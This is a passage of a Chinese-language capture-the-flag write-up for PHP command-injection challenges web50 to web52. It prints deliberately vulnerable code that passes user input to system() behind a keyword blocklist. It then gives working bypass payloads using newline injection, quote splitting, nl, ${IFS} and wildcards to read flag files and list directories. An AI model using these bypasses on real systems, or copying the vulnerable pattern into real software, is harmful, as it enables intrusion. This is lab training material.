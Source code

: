 同上，这里虽然过滤了%，但是%09会被优先解析成制表符，也就是说先经过浏览器一次url解码，再进行传参
payload：/?c=tac%09fla?.php%0a
## web50（''绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
这一次把制表符过滤了，那就换个姿势，发现在使用<代替空格的时候通配符貌似就不起作用了，所以使用''来绕过flag的匹配，此外使用转义符也是可行的，除了一些特殊字符转义后会成为其他字符外，剩下的转义后还是本身，等同于没转义
payload：/?c=tac<fla''g.php%0a或/?c=tac<fla\g.php%0a
## web51（''绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
过滤了tac，其他常见的打印命令也ban了，其实还有个nl可用，执行后回显1，右键查看源码得到flag
payload：/?c=nl<fl''ag.php%0a
## web52（${IFS}绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
这个题过滤了<，绕过空格还有${IFS}可用
payload：/?c=nl${IFS}fla?.???%0a
查看源码发现
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637853342916-eb9219b4-c9cd-49bf-be86-abe257504657.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=50&id=u7fe19710&margin=%5Bobject%20Object%5D&name=image.png&originHeight=35&originWidth=215&originalType=binary&ratio=1&rotation=0&showTitle=false&size=703&status=done&style=none&taskId=ubdace4ad-cc48-4e7c-967b-04871ae224c&title=&width=307)
？？？我的flag呢，看下目录payload：/?c=ls%0a
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637853425951-9563e023-b815-4ea2-99fe-0969929a129f.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=50&id=u2ac2405d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=53&originWidth=217&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1553&status=done&style=none&taskId=ue31fafed-6d8f-4abb-a757-305af2dc745&title=&width=205)
看来flag不在此处，看看根目录payload：/?c=ls${IFS}/%0a
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637853470065-f03fafa3-81c1-45fc-b368-4eebab029915.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=50&id=u4d809a1a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=38&originWidth=770&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3869&status=done&style=none&taskId=u39ed1a66-aa60-424b-8eda-565935ca680&title=&width=1013)
第四个文件叫flag，进去看看payload：/?c=nl${IFS}/fla?%0a
答案回显在页面上，完活儿